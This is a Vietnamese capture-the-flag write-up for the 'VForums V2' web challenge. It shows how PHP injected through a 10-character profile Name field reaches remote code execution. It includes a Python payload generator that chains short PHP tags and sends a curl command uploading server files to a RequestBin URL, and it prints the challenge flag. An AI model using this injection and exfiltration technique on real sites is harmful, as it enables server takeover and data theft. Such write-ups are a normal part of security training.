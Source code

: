 ## VForums V2
### 200 points

Bài này thì mình thấy khá là nghệ thuật, biết được đâm vào đâu thì không khó, mà biết đâm vào như nào mới khó.

### Đề bài
<pre>
<a href="http://35.240.153.120:8002">http://35.240.153.120:8002</a>
</pre>

### Giao diện của bài:

Nhiều bài chỉ có mỗi trang login thế này trông hơi bùn, nhưng biết làm sao

![view-login]

### Lời giải

Như thường lệ, mình vẫn tạo tài khoản, đăng nhập thử và đi dạo vài tính năng xem có gì thú vị

Thì thấy khi update `Name` ở đây

![view-update-info]

Thì bên `Logs` sẽ có thêm một dòng như này

![view-logs]

Thử update đổi `Name` thành `<??>`, thấy name trong `Logs` biến mất, biết ngay là nó thực thi đoạn php đó rồi 

![[view-injected]

Tuy nhiên khi mình thử update `Name` thành một đoạn php dài hơn thì bị báo chỉ được sử dụng 10 chars thôi :'(

![view-10-chars]

Vậy mục tiêu ở đây là phải viết được cái command làm sao để RCE được nhưng vẫn tuân thủ điều kiện 10 chars của bài

Sau khi lục lọi trên mạng một lúc thì mình tìm được 2 shorthand commands cực hữu ích, đó là `<?=$variable?>` thay cho `echo $variable`, và `` `{$variable}` `` thay cho `exec($variable)`.

Thử lệnh `<?=`ls`?>` (10 chars) ta được kết quả

![view-ls]

Sau đó, vì nhận thấy rằng phép gán biến, ví dụ `<?$a="b"?>` hết 10 chars, phép nối biến, ví dụ `<?$a.=$b?>` hết 10 chars, kèm thêm lệnh exec, ví dụ `` <?`{$a}`?> ``, cũng hết 10 chars,
 nên 3 lệnh này đều có thể sử dụng làm bàn đạp để RCE.
 
Tuy nhiên ở đây có một vấn đề đó là vì không chèn thêm được `=` vào trong các lệnh này nên mình không echo được kết quả ra. Vì vậy mình chọn phương án `cat *` các file trong thư mục đó ra và gửi lên `RequestBin`. Bạn có thể tạo một file shell nho nhỏ trên server để chạy lệnh và echo ra cho tiện, tuy nhiên kia là cách mình xử lý trong lúc làm bài. Mình viết một đoạn payload generator bằng Python như sau:
```python
import requests

cookie = '<cookie>';

def gen(command):
    v = 'b'

    r = ['<?$a=""?>']
    
    for c in command:
        if (v > 'z'):
            for i in range(ord('b'), ord('z') + 1):
                r.append('<?${}.=${}?>'.format('a', chr(i)))
            v = 'b'
        r.append('<?${}="{}"?>'.format(v, c))
        v = chr(ord(v) + 1)

    for i in range(ord('b'), ord(v)):
        r.append('<?${}.=${}?>'.format('a', chr(i)))
    r.append('<?=$a?>')
    r.append('<?`{$a}`?>')
    return r

def nameChange(name):
    return requests.post('http://35.240.153.120:8002/index.php?page=profile', data = {
        'name': name
    }, headers = {
        'cookie': cookie
    })

r1 = gen('cat * > out.txt')
for c in r1:
    nameChange(c)
r = gen('curl http://requestbin.net/r/x5ev70x5 -F \'f=@out.txt\' -X POST')
for c in r:
    nameChange(c)
``` 

Kết quả, vì mình chạy update với mỗi kí tự trong payload nên sẽ có một đoạn log dài ngoằng như kia, dòng cuối cùng là payload đã nối lại, được mình echo ra, cho biết payload đã chạy thành công

![view-executed]

Việc còn lại là bới RequestBin tìm flag thôi :3

### Flag

![flag]

```
flag{0nly_10_ch4r_(T__T)}
```

[view-login]: assets/VFORUMS_V2/view-login.png
[view-update-info]: assets/VFORUMS_V2/view-update-info.png
[view-logs]: assets/VFORUMS_V2/view-logs.png
[view-injected]: assets/VFORUMS_V2/view-injected.png
[view-10-chars]: assets/VFORUMS_V2/view-10-chars.png
[view-ls]: assets/VFORUMS_V2/view-ls.png
[view-executed]: assets/VFORUMS_V2/view-executed.png
[flag]: assets/VFORUMS_V2/flag.png